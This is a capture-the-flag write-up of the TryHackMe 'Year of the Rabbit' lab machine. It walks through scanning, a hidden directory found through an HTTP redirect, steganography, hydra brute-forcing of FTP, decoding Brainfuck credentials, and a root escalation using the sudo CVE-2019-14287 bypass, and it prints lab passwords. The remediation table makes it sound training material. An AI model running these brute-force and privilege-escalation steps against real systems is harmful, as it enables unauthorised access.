# Year of the Rabbit — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Easy | **Target IP:** 10.64.189.163 | **Attacker IP:** 192.168.131.193

## Machine info



## Summary

**Year of the Rabbit** is a TryHackMe machine built almost entirely around deliberate rabbit holes and misdirection. A commented-out hint in the website's stylesheet leads past a chain of decoy rickrolls to a directory hidden behind an HTTP redirect, where a steganography puzzle in an image file yields FTP credentials. Those credentials expose a Brainfuck-encoded file with SSH access for a low-privileged user, whose message of the day hints at a hidden note that leaks a second user's password. That second account holds a sudo rule for vi vulnerable to CVE-2019-14287, which is abused to bypass its !root restriction and obtain a root shell.
**Attack chain:** Style.css Comment → Hidden Directory → Hot_Babe.png Steganography → FTP Brute Force → Brainfuck SSH Credentials → eli → Hidden Password Note → gwendoline → CVE-2019-14287 (sudo vi) → Root

## 1. Reconnaissance

An `nmap` full-port scan showed three open services: FTP, SSH, and an Apache web server.

```
nmap -p- -sS -sV -sC -vvv -oN scan.txt 10.64.189.163

PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 62 vsftpd 3.0.2
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAILCKdtvyy1FqH1gBS+POXpHMlDynp+m6Ewj2yoK2PJKJeQeO2yRty1/qcf0eAHJGRngc9+bRPYe4M518+7yBVdO2p8UbIItiGzQHEXJu0tGdhIxmpbTdCT6V8HqIDjzrq2OB/PmsjoApVHv9N5q1Mb2i9J9wcnzlorK03gJ9vpxAAAAFQDVV1vsKCWHW/gHLSdO40jzZKVoyQAAAIA9EgFqJeRxwuCjzhyeASUEe+Wz9PwQ4lJI6g1z/1XNnCKQ9O6SkL54oTkB30RbFXBT54s3a11e5ahKxtDp6u9yHfItFOYhBt424m14ks/MXkDYOR7y07FbBYP5WJWk0UiKdskRej9P79bUGrXIcHQj3c3HnwDfKDnflN56Fk9rIwAAAIBlt2RBJWg3ZUqbRSsdaW61ArR4YU7FVLDgU0pHAIF6eq2R6CCRDjtbHE4X5eW+jhi6XMLbRjik9XOK78r2qyQwvHADW1hSWF6FgfF2PF5JKnvPG3qF2aZ2iOj9BVmsS5MnwdSNBytRydx9QJiyaI4+HyOkwomj0SINqR9CxYLfRA==
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCZyTWF65dczfLiKN0cNpHhm/nZ7FWafVaCf+Oxu7+9VM4GBO/8eWI5CedcIDkhU3Li/XBDUSELLXSRJOtQj5WdBOrFVBWWA3b3ICQqk0N1cmldVJRLoP1shBm/U5Xgs5QFx/0nvtXSGFwBGpfVKsiI/YBGrDkgJNAYdgWOzcQqol/nnam8EpPx0nZ6+c2ckqRCizDuqHXkNN/HVjpH0GhiscE6S6ULvq2bbf7ULjvWbrSAMEo6ENsy3RMEcQX+Ixxr0TQjKdjW+QdLay0sR7oIiATh5AL5vBGHTk2uR8ypsz1y7cTyXG2BjIVpNWeTzcip7a2/HYNNSJ1Y5QmAXoKd
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHKavguvzBa889jvV30DH4fhXzMcLv6VdHFx3FVcAE0MqHRcLIyZcLcg6Rf0TNOhMQuu7Cut4Bf6SQseNVNJKK8=
|   256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFBJPbfvzsYSbGxT7dwo158eVWRlfvXCxeOB4ypi9Hgh
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## 2. Web Enumeration — From the Default Page to a Hidden Directory

Port 80 only showed the default `Apache2 Debian` landing page, with nothing custom in the visible HTML.



A `gobuster` directory scan turned up a single hidden directory, `/assets/`.

```
gobuster dir -u http://10.64.189.163/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

assets               (Status: 301) [Size: 315] [--> http://10.64.189.163/assets/]
```



Inside `/assets/`, `RickRolled.mp4` was exactly what the name implies — a dead-end rickroll video.



`style.css`, however, contained a comment hinting at a further page:

```
/* Nice to see someone checking the stylesheets.
   Take a look at the page: /sup3r_s3cr3t_fl4g.php
*/
```

Browsing to `/sup3r_s3cr3t_fl4g.php` directly triggered a JavaScript alert telling the visitor to turn off JavaScript, and clicking past it redirected to the same rickroll video on YouTube — both dead ends.




Requesting the same page with `curl -I` sidestepped the JavaScript entirely and exposed the real redirect in the response headers:

```
curl -I http://10.64.189.163/sup3r_s3cr3t_fl4g.php

HTTP/1.1 302 Found
Date: Sun, 08 Nov 2026 13:43:55 GMT
Server: Apache/2.4.10 (Debian)
Location: intermediary.php?hidden_directory=/WExYY2Cv-qU
Content-Type: text/html; charset=UTF-8
```

Browsing to the leaked directory, `/WExYY2Cv-qU/`, revealed a single file: `Hot_Babe.png`.



## 3. Steganography — Extracting FTP Credentials from Hot_Babe.png

`Hot_Babe.png` is a classic Lenna test image with data hidden past the image's `IEND` chunk.


Running `strings` against the downloaded file revealed an FTP username, `ftpuser`, plus a list of password candidates:

```
strings Hot_Babe.png

Eh, you've earned this. Username for FTP is ftpuser
One of these is the password:
Mou+56n%QK8sr
1618B0AUshw1M
A56IpIl%1s02u
vTFbDzX9&Nmu?
FfF~sfu^UQZmT
8FF?iKO27b~V0
ua4W~2-@y7dE$
3j39aMQQ7xFXT
Wb4--CTc4ww*-
u6oY9?nHv84D&
0iBp4W69Gr_Yf
TS*%miyPsGV54
C77O3FIy0c0sd
O14xEhgg0Hxz1
5dpv#Pr$wqH7F
1G8Ucoce1+gS5
0plnI%f0~Jw71
0kLoLzfhqq8u&
kS9pn5yiFGj6d
zeff4#!b5Ib_n
rNT4E4SHDGBkl
KKH5zy23+S0@B
3r6PHtM4NzJjE
gm0!!EC1A0I2?
HPHr!j00RaDEi
7N+J9BYSp4uaY
PYKt-ebvtmWoC
3TN%cD_E6zm*s
eo?@c!ly3&=0Z
nR8&FXz$ZPelN
eE4Mu53UkKHx#
86?004F9!o49d
SNGY0JjA5@0EE
trm64++JZ7R6E
3zJuGL~8KmiK^
CR-ItthsH%9du
yP9kft386bB8G
A-*eE3L@!4W5o
GoM^$82l&GA5D
1t$4$g$I+V_BH
0XxpTd90Vt8OL
j0CN?Z#8Bp69_
G#h~9@5E5QA5l
DRWNM7auXF7@j
Fw!if_=kk7Oqz
92d5r$uyw!vaE
c-AA7a2u!W2*?
zy8z3kBi#2e36
J5%2Hn+7I6QLt
gL$2fmgnq8vI*
Etb?i?Kj4R=QM
7CabD7kwY7=ri
4uaIRX~-cY6K4
kY1oxscv4EB2d
k32?3^x1ex7#o
ep4IPQ_=ku@V8
tQxFJ909rd1y2
5L6kpPR5E2Msn
65NX66Wv~oFP2
LRAQ@zcBphn!1
V4bt3*58Z32Xe
ki^t!+uqB?DyI
5iez1wGXKfPKQ
nJ90XzX&AnF5v
7EiMd5!r%=18c
wYyx6Eq-T^9#@
yT2o$2exo~UdW
ZuI-8!JyI6iRS
PTKM6RsLWZ1&^
3O$oC~%XUlRO@
KW3fjzWpUGHSW
nTzl5f=9eS&*W
WS9x0ZF=x1%8z
Sr4*E4NT5fOhS
hLR3xQV*gHYuC
4P3QgF5kflszS
NIZ2D%d58*v@R
0rJ7p%6Axm05K
94rU30Zx45z5c
Vi^Qf+u%0*q_S
1Fvdp&bNl3#&l
zLH%Ot0Bw&c%9
```

Brute-forcing FTP with `hydra` against that candidate list found the correct password:

```
hydra -l ftpuser -P passwords.txt ftp://10.64.189.163

[DATA] max 16 tasks per 1 server, overall 16 tasks, 82 login tries (l:1/p:82), ~6 tries per task
[DATA] attacking ftp://10.64.189.163:21/
[21][ftp] host: 10.64.189.163   login: ftpuser   password: 5iez1wGXKfPKQ
[STATUS] 90.00 tries/min, 90 tries in 00:01h, 1 to do in 00:01h, 5 active
1 of 1 target successfully completed, 1 valid password found
```

## 4. FTP Access & Decoding eli's Brainfuck Credentials

Logging into FTP with `ftpuser:5iez1wGXKfPKQ` revealed a single file, `Eli's_Creds.txt`, which was downloaded:

```
ftp 10.64.189.163
Connected to 10.64.189.163.
220 (vsFTPd 3.0.2)
Name (10.64.189.163:kaskamilla): ftpuser
331 Please specify the password.
Password: 
230 Login successful.
ftp> ls
-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt
ftp> get Eli's_Creds.txt
226 Transfer complete.
```

Its contents turned out to be Brainfuck code rather than plaintext:

```
cat Eli\'s_Creds.txt

+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```

Running it through a Brainfuck interpreter revealed SSH credentials for the user `eli`:



## 5. Initial Access as eli & Pivoting to gwendoline

SSH with the recovered credentials dropped into a shell as `eli`, and the message of the day showed a note from `Root` to `Gwendoline`, hinting at a "leet s3cr3t hiding place":



As `eli`, a `core` dump found in `/home/gwendoline` turned out to be unrelated (just a `vmtoolsd` crash), and enumerating SUID binaries only turned up `exim4` as a theoretical CVE-2016-1531 candidate — both dead ends. Chasing the MOTD hint with `locate` instead immediately turned up a hidden file leaking `gwendoline`'s password:

```
locate s3cr3t

/usr/games/s3cr3t
/usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
/var/www/html/sup3r_s3cr3t_fl4g.php

cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!

Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```

That leaked password worked directly for `gwendoline`:

```
eli@year-of-the-rabbit:/usr/games/s3cr3t$ su gwendoline
Password: 
gwendoline@year-of-the-rabbit:/usr/games/s3cr3t$
```

With `gwendoline` access, the user flag was captured directly:



## 6. Privilege Escalation to Root — CVE-2019-14287 (sudo vi Bypass)

`sudo -l` as `gwendoline` showed a NOPASSWD rule allowing `vi` to run as any user except `root`:

```
sudo -l

Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

This rule is vulnerable to CVE-2019-14287: passing a UID of `-1` (interpreted as `0`/`root` due to an integer-parsing bug) bypasses the `!root` restriction entirely. Running `vi` as UID `-1` and shelling out from inside it produced a root shell:



With a root shell, the root flag was captured:



## Root Cause & Remediation

| Issue | Fix |
|---|---|
| FTP credentials hidden inside `Hot_Babe.png`, trivially recoverable with `strings` | Never embed credentials or hints inside publicly reachable files |
| Weak FTP password crackable via brute force with a small candidate list | Enforce strong password policies and add login rate-limiting/lockout on FTP |
| SSH credentials for `eli` merely encoded in Brainfuck, not encrypted | Do not rely on obscurity/encoding as a security control; remove credential files from FTP-accessible shares |
| World-readable file leaking `gwendoline`'s plaintext password | Restrict file permissions and never store passwords in plaintext on disk |
| `sudo` rule allowing `vi` as `(ALL, !root)` without UID validation, enabling CVE-2019-14287 | Upgrade `sudo` to a patched version and avoid NOPASSWD rules for GTFOBins-listed editors |
